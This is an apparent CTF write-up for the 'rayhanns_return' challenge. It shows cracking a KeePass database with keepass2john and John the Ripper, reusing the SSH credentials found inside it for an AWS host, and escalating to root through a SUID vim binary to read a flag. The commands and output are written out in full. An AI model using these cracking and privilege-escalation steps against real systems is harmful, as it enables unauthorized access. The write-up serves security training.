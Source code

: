 ```yaml
---
title: "OSU League 2020/2021 - rayhanns_return Writeup"
date: 2021-02-22
draft: false
description: ""
tags: ["ctf"]
---
```

For this challenge, we are given three files: A PDF that explains the lore/backstory of our task, an ISO file, and a wordlist that seems to be a derivitive of the `rockyou.txt` wordlist.

The first thing I did was mount the ISO file to my file system to see its contents:

```
$ sudo mount -o loop CTG-2021-02-19-001.iso /mnt/disk
$ cd /mnt/disk
$ ls
lost+found  rhodgson.kdbx
```

Interesting, we have a keepass password database. Let's see if we can open it:

```
$ kpcli --kdb rhodgson.kdbx 
Please provide the master password: *************************
Couldn't load the file rhodgson.kdbx: Missing pass
```

Dang, looks like we need to know the master password.... Or do we? (Insert Vsauce music)

We were given a password list right at the start, maybe we can use that to try and crack the password. Using johntheripper's `keepass2john`, we can convert this kee pass db into a hash format that john can try to crack:

```
$ ./keepass2john /mnt/disk/rhodgson.kdbx > hash.txt
$ john --wordlist=CTG_STANDARD_WORDLIST.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1hodgson         (rhodgson)
1g 0:00:00:20 DONE (2021-02-20 18:12) 0.04803g/s 135.2p/s 135.2c/s 135.2C/s prield28..pinkphone98
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And there we go! We have the password to the kee pass file, `1hodgson`.

We can use that password and begin navigating the database.

```
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
rhodgson/
kpcli:/> cd rhodgson/
kpcli:/rhodgson> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. My Flag Box                                               34.216.68.186
kpcli:/rhodgson> show -f My\ Flag\ Box 

 Path: /rhodgson/
Title: My Flag Box
Uname: ubuntu
 Pass: As.3S;d0cvAS3kmm3VI(N
  URL: 34.216.68.186
Notes: This aws thing is maybe useless cause I was messing with permissions, and now I cannot print the flag, and dont understand what I did when I was messing around with SUID bits. https://imgflip.com/i/4yladl

kpcli:/rhodgson> 
```

We have an aws box with the password!!  Default user on aws ubuntu boxes is `ubuntu`, so let's try to SSH into `34.216.68.186` as that user and with that password:

```
ubuntu@ip-172-31-24-45 / % ls
bin   dev  home  lib32	libx32	    media  opt	 root  sbin  srv  tmp  var
boot  etc  lib	 lib64	lost+found  mnt    proc  run   snap  sys  usr
```

We are in! Let's start looking for the flag:

```
ubuntu@ip-172-31-24-45 ~ % ls -lah
total 180K
drwxr-xr-x 7 ubuntu ubuntu 4.0K Feb 21 02:48 .
drwxr-xr-x 4 root   root   4.0K Feb 18 10:27 ..
-rw------- 1 ubuntu ubuntu   61 Feb 20 03:44 .Xauthority
-rw------- 1 ubuntu ubuntu 1.8K Feb 20 04:10 .bash_history
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3.7K Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4.0K Feb 18 09:53 .cache
drwx------ 3 ubuntu ubuntu 4.0K Feb 20 06:37 .config
-rw------- 1 root   root     28 Feb 19 02:56 .flag

ubuntu@ip-172-31-24-45 ~ % cat .flag
cat: .flag: Permission denied
```

After a little digging, I was able to find `.flag` hidden in the home directory of ubuntu. But the file is only readable by root :/

Usually with boxes like this, the first thing I look for is any SETUID binarys that I could use to priv esc or read certain files, so let's try that:

```
ubuntu@ip-172-31-24-45 ~ % find / -perm -4000 2>/dev/null           
...
/usr/bin/at
/usr/bin/sudo
/usr/bin/vim.basic
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
```

Sweet! We have vim as a SETUID, that means we can just read the flag with root privileges by doing `$ vim .flag`:

And we get the flag!  

`osu{rAyh44n_is_b4d_@_0ps3c}`